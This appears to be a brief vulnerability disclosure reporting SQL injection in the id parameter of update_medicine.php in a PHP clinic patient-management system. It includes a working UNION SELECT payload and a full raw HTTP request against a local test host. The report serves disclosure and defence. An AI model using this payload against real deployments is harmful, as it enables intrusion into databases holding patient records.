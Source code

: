 # Clinic's Patient Management System v1.0 by oretnom23 has SQL injection

BUG_Author：JINLongZhou

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: /pms/update_medicine.php?id=

Vulnerability location: /pms/update_medicine.php?id=, id

dbname = pms_db

[+] Payload: /pms/update_medicine.php?id=-2%20union%20select%201,database()--+ // Leak place ---> id

```SQL
GET /pms/update_medicine.php?id=-2%20union%20select%201,database()--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=odknb2obdq1nkaqk7p7u8hvli8
Connection: close
```

![IMG](https://user-images.githubusercontent.com/54017627/177024923-6f9f3a80-d822-4c43-bafd-996b63a13438.png)

